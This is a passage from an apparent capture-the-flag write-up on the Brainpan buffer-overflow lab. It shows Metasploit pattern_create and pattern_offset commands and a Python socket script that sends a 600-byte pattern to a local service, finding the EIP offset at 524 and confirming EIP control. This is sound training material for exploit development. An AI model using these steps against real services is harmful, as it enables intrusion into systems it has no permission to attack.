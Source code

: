 - The fuzzing stopped at 600 byres so we will use 600  bytes for pattern length
- generate a pattern

```bash
┌──(alienum㉿kali)-[~]
└─$ msf-pattern_create -l 600 -s ABCDEFGHIKL,alienum,123456789
Aa1Aa2<REMOVED>Dl1Dl2
```

- offset.py

```python
import socket,sys

#msf-pattern_create -l 600 -s ABCDEFGHIKL,alienum,123456789
payload = "Aa1Aa2<REMOVED>Dl1Dl2"


try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('127.0.0.1',9999))
    s.recv(1024)
    s.send(payload.encode('utf-8'))
    s.close()
except Exception as e:
    print("[X] Connection error")
    print(e)
    sys.exit()
```


- EIP Overrided with value :  **35754334**
- This number will be usefull to find the exact offset in order to control the EIP

![image]( /assets/img/brainpan/Pasted image 20210609232300.png)

###### Exact offset

- The exact offset is  524

```bash
┌──(alienum㉿kali)-[~]
└─$ msf-pattern_offset -l 600 -s ABCDEFGHIKL,alienum,123456789 -q 35754334
[*] Exact match at offset 524
```

![image]( /assets/img/brainpan/Pasted image 20210609234130.png)

- Let's confirm the EIP control


#### Control

- EIP Control Success

![image]( /assets/img/brainpan/Pasted image 20210609234824.png)
